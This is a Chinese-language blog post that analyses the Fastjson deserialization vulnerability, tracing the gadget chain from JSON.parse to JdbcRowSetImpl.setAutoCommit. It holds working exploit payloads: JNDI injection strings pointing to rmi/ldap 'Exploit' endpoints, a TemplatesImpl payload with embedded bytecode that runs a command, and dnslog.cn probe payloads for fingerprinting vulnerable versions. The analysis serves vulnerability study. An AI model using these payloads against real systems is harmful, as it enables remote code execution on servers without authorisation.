# 逆向学习fastjson反序列化始

# 前言

   Fastjson这款国内知名的解析json的组件，笔者在此就不多介绍，网络上有很多分析学习fastjson反序列化漏洞文章。笔者在此以一种全新角度从分析payload构造角度出发，逆向学习分析fastjson反序列化漏洞始末。  
ps：漏洞学习环境以代码均在上传[Github项目](https://github.com/SummerSec/JavaLearnVulnerability)。

---

# 初窥Payload

   下面是一段最简单`Fastjson的版本号反序列化--URLDNS`代码，观察发现可以提出一个问题`@type`作用？

```java
import com.alibaba.fastjson.JSON;
public class urldns {
    public static void main(String[] args) {
        // dnslog平台网站：http://www.dnslog.cn/
        String payload = "{{\"@type\":\"java.net.URL\",\"val\"" +
                ":\"http://h2a6yj.dnslog.cn\"}:\"summer\"}";
        JSON.parse(payload);
    }
}
```

---

## @type的作用

   下面是一段实验代码，帮助理解分析`@type`的由来。

```java
public class User {
    private String name;
    private int age;
 

    public String getName() {
        return name;
    }
    public void setName(String name) {
        this.name = name;
    }

    public int getAge() {
        return age;
    }
    public void setAge(int age) {
        this.age = age;
    }
     @Override
    public String toString() {
        return "User{" +
                "name='" + name + '\'' +
                ", age=" + age +
                '}';
    }
    
}
```

```java
package vul.fastjson;
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
import com.alibaba.fastjson.serializer.SerializerFeature;

public class Demo {
//TODO 修改pom.xml中的fastjson <= 1.2.24
    public static void main(String[] args) {
        User user = new User();
        user.setAge(18);
        user.setName("summer");
        String str1 = JSONObject.toJSONString(user);
        // 转化的时候加入一个序列化的特征 写入类名
        // feature = 特征
        String str2 = JSONObject.toJSONString(user, SerializerFeature.WriteClassName);
        // str2输入结果会输出 @type+类名
        // 由此可知@type是用于解析JSON时的用于指定类
        System.out.println(str1);
        System.out.println(str2);
        //如果fastjson解析内容时没有配置，会默认使用缺省配置
        // TODO 查看parse方法 可以设置断点看看不同之处和相同之处
        Object parse1 = JSON.parse(str1);
        Object parse2 = JSON.parse(str2);
        //很明显的结果不一样
        System.out.println("@type: " + parse1.getClass().getName());
        System.out.println("str1's parse1: " + parse1);
        System.out.println("@type: " + parse2.getClass().getName());
        System.out.println("str2's parse2: " + parse2);
    }
}
```



   对比分析一下，只要在JSON序列化的方法加入`SerializerFeature.WriteClassName`特征字段。序列化出来的结果会在开头加一个`@type`字段，值为进行序列化的类名。再将带有`@type`字段的序列化数据进行反序列化会得到对应的实例类对象。反序列化可以获取类对象？有Java基础的安全人应该会敏感的这里十之八九存在漏洞。  
ps： 下面是一段验证代码

```java
public class Vuldemo {
    public static void main(String[] args) {
        String payload = "{\"@type\":\"vul.fastjson.User\",\"age\":18,\"name\":\"summer\"}";
        Object ob = JSON.parse(payload);
		System.out.println("反序列化后类对象:  " + ob.getClass().getName());
        System.out.println("反序列化结果: " + ob);

    }
}
```



---

# 漏洞分析

## RCE’s payload

   第一种payload是使用`com.sun.rowset.JdbcRowSetImpl`类，第二种是`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`。第二种之前在[漫谈Commons-Collections反序列化](https://samny.blog.csdn.net/article/details/106160182)讨论分析过，这里不再重复着重讨论分析第一种payload。

```java
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1090/Exploit","autoCommit":true}
```

```java
{"@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl","_bytecodes":["yv66vgAAADIANAoABwAlCgAmACcIACgKACYAKQcAKgoABQAlBwArAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAAtManNvbi9UZXN0OwEACkV4Y2VwdGlvbnMHACwBAAl0cmFuc2Zvcm0BAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIZG9jdW1lbnQBAC1MY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTsBAAhpdGVyYXRvcgEANUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7AQAHaGFuZGxlcgEAQUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQByKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIaGFuZGxlcnMBAEJbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsHAC0BAARtYWluAQAWKFtMamF2YS9sYW5nL1N0cmluZzspVgEABGFyZ3MBABNbTGphdmEvbGFuZy9TdHJpbmc7AQABdAcALgEAClNvdXJjZUZpbGUBAAlUZXN0LmphdmEMAAgACQcALwwAMAAxAQAEY2FsYwwAMgAzAQAJanNvbi9UZXN0AQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAE2phdmEvaW8vSU9FeGNlcHRpb24BADljb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvVHJhbnNsZXRFeGNlcHRpb24BABNqYXZhL2xhbmcvRXhjZXB0aW9uAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwAhAAUABwAAAAAABAABAAgACQACAAoAAABAAAIAAQAAAA4qtwABuAACEgO2AARXsQAAAAIACwAAAA4AAwAAABEABAASAA0AEwAMAAAADAABAAAADgANAA4AAAAPAAAABAABABAAAQARABIAAQAKAAAASQAAAAQAAAABsQAAAAIACwAAAAYAAQAAABcADAAAACoABAAAAAEADQAOAAAAAAABABMAFAABAAAAAQAVABYAAgAAAAEAFwAYAAMAAQARABkAAgAKAAAAPwAAAAMAAAABsQAAAAIACwAAAAYAAQAAABwADAAAACAAAwAAAAEADQAOAAAAAAABABMAFAABAAAAAQAaABsAAgAPAAAABAABABwACQAdAB4AAgAKAAAAQQACAAIAAAAJuwAFWbcABkyxAAAAAgALAAAACgACAAAAHwAIACAADAAAABYAAgAAAAkAHwAgAAAACAABACEADgABAA8AAAAEAAEAIgABACMAAAACACQ="],'_name':'a.b','_tfactory':{ },"_outputProperties":{ }}
```

---

## 再窥Payload

   观察发现这个payload由三部分组成，`@type`、`dataSourceName`、`autoCommint`。第一个`@type`前面已经提及了是获取实例化类，`dataSourceName`和`autoCommit`我们看看官方文档。

```java
String payload =   "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\"," +
              "\"dataSourceName\":\"rmi://localhost:1090/Exploit\",\"autoCommit\":true}";
```

   大致意思：使用该方法的名称绑定到`JNDI命名服务`中的`DataSource`对象上，应用程序就可以使用该名称进行查找，检索绑定到它的DataSource对象。  
   设置`AutoCommit`后，会`自动提交内容`。设置这个属性之后，JNDI找到对应资源，对自动提交内容，读者后期可以试试删除这个属性是不会触发漏洞的。  
  
**知道上面这些特性后，根据特点构造等价代码**  
[国外介绍JdbcRowSet 使用方法的一个小案例，可以参考一下。](http://www.herongyang.com/JDBC/MySQL-JdbcRowSet-DataSource.html)

```java
JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        try {
            jdbcRowSet.setDataSourceName("ldap://127.0.0.1:1389/Exploit");
            jdbcRowSet.setAutoCommit(true);
        } catch (SQLException throwables) {
            throwables.printStackTrace();
        }
```

---

# 漏洞成因分析

   JSON#parse()方法会调用`DefaultJSONParser#parse()`，在实例化DefaultJSONParser类是会将输入数据使用实例化JSONScanner类传入，并同时传入默认缺省配置`features`。  
  
  
   这个 lexer 属性实际上是在 DefaultJSONParser 对象被实例化的时候创建的。  
  
   DefaultJSONParser在实例化时会读取当前字符`ch={`，所以`lexer.token()=12`。  


  
   跳转12会创建JSONObject类对象，然后再调用 `DefaultJSONParser#parseObject(java.util.Map, java.lang.Object)`方法去解析。  
  
   DefaultJSONParser#parseObject前面会做一个简单判断`lexer.token()`，然后读取字符判断是否`ch=='"'`，TRUE就获取其中的字段的值`@type`并紧接着判断`key == JSON.DEFAULT_TYPE_KEY`相等。  
  
  
  
   接下去进入反序列化阶段`deserializer#deserialze()`–>`parseRest()`–>`fieldDeser#setValue`–>一系列反射调用–>`JdbcRowSetImpl#setAutoCommit()`触发漏洞。

  
  
  
  
  
**最后得到Gadget chain如下**

```java
/**
 * Gadget chain:
 *      JSON.parse()
 *          DefaultJSONParser.parse()
 *              DefaultJSONParser.parseObject()
 *                  JavaBeanDeserializer.deserialze()
 *                      JavaBeanDeserializer.parseRest()
 *                          FieldDeserializer.setValue()
 *                              Reflect.invoke()
 *                                  JdbcRowSetImpl.setAutoCommit()
 *
 */
```



---

# DNSLOG的一个小点

   实战挖掘fastjson漏洞的时候比较常用的方法，探测Fastjson是用dnslog方式，探测到了再用RCE Payload去一个一个打。但是本人在本地环境测试的时候发现了几个不同点，fastjson的版本不同，不同的payload成功概率是不同的。至于为什么是这样子，可以参考一下这篇[通过dnslog探测fastjson的几种方法](http://gv7.me/articles/2020/several-ways-to-detect-fastjson-through-dnslog/)。

```java
// 目前最新版1.2.72版本可以使用1.2.36 < fastjson <= 1.2.72
String payload = "{{\"@type\":\"java.net.URL\",\"val\"" +
        ":\"http://9s1euv.dnslog.cn\"}:\"summer\"}";
// 全版本支持 fastjson <= 1.2.72
String payload1 = "{\"@type\":\"java.net.Inet4Address\",\"val\":\"zf7tbu.dnslog.cn\"}";
String payload2 = "{\"@type\":\"java.net.Inet6Address\",\"val\":\"zf7tbu.dnslog.cn\"}";
```

---

# 参考

<http://www.b1ue.cn/archives/184.html>  
<http://www.herongyang.com/JDBC/MySQL-JdbcRowSet-DataSource.html>  
<https://docs.oracle.com/cd/E17824_01/dsc_docs/docs/jscreator/apis/rowset/com/sun/rowset/JdbcRowSetImpl.html>  
<http://gv7.me/articles/2020/several-ways-to-detect-fastjson-through-dnslog/>  
<https://www.freebuf.com/news/232758.html>
